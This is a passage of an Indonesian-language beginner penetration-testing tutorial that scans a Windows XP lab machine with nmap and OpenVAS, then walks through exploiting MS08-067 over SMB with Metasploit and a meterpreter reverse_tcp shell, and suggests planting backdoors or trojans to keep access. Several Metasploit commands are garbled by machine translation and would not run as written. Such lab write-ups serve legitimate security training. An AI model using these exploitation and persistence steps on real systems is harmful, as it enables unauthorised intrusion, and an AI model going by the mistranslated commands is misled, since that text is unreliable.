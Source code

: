 *   nmap --help (lihat menu bantuan)
*   man nmap (lihat dokumentasi untuk nmap)
*   nmap -sS 192.168.56.101\.

![https://file.army/i/BYwEDpV](https://images.hive.blog/DQmQ9i5a2m29drQ2oHFiLzN6t7Mu8JBjukE2cpiYwnudhjZ/Figure%203.1%20Scanning%20With%20NMAP.png)

Gambar 3.1 Memindai dengan NMAP.



### Pemindaian 3.2 Kerentanan

Saat ini ada alat yang akan melakukan pemindaian kerentanan untuk kami saat biasanya kami menemukan kerentanan secara manual. Alat yang kami ketahui adalah Nessus dan Openvas, di OS kami Openvas diinstal sebagai default.

1.  apt-get install openvas (jika belum diinstal).
2.  openvas-setup (pengaturan pertama, jangan lewatkan kata sandi, nama pengguna: admin. Cari web untuk mengubah kata sandi jika Anda kehilangannya).
3.  openvas-start (untuk memulainya).
4.  Lalu buka browser web Anda dan buka url: https://127.0.0.1:9392\.
5.  Masuk, untuk pemula cukup gunakan pemindaian cepat dan masukkan alamat IP target, di sini adalah 192.168.56.101\.

![https://file.army/i/BYwE2II](https://steemitimages.com/0x0/https://images.hive.blog/DQmP79qNwcAwgLw8gYhXUCZp86VWxWd5vX2XLFkBabriNcA/Figure%203.2%20Vunerability%20Scanning%20with%20Openvas.gif)

Gambar 3.2 Memindai Vunerability dengan Openvas.



## 4\. Eksploitasi dan Menjaga Akses

### 4.1 Eksploitasi

Lebih banyak materi segera hadir, tetapi untuk saat ini kami ingin melakukan eksploitasi yang merupakan salah satu yang paling sederhana namun sangat menarik bagi pemula. Ini awalnya tidak sederhana tetapi metasploit menyediakan alat untuk kita yang hanya perlu kita gunakan. Setelah kami melakukan pemindaian pada Windows XP pada bagian 3, kami sekarang bergerak untuk mengeksploitasi Port 445 yang mereka sebut netapii, kerentanan SMB.

1.  msfconsole (untuk mengaktifkannya)
2.  cari seseorang (untuk menemukan untuk dieksploitasi)
3.  gunakan exploit / windows / smb / ms08_067_netapi
4.  tampilkan opsi (untuk melihat opsi)
5.  atur rhost 192.168.56.101\.
6.  payload pencarian (untuk melihat payload digunakan)
7.  atur windows muatan meter / meterpreter / reverse_tcp
8.  tampilkan opsi
9.  atur lhost 192.168.56.1 (menyerang PC)
10.  exploit

### 4.2 Menjaga Akses

Ini dimungkinkan karena saya mematikan firewall, apa yang terjadi jika kami tiba-tiba menyalakannya atau target memperbaiki kerentanan (Bahkan revisi terbaru TinyXP dengan firewall tidak dimungkinkan untuk dieksploitasi)? Jadi kita harus memasukkan pintu belakang, trojan, virus, dll. Video akan menunjukkan semuanya, mulai dari pemindaian hingga proses ini.
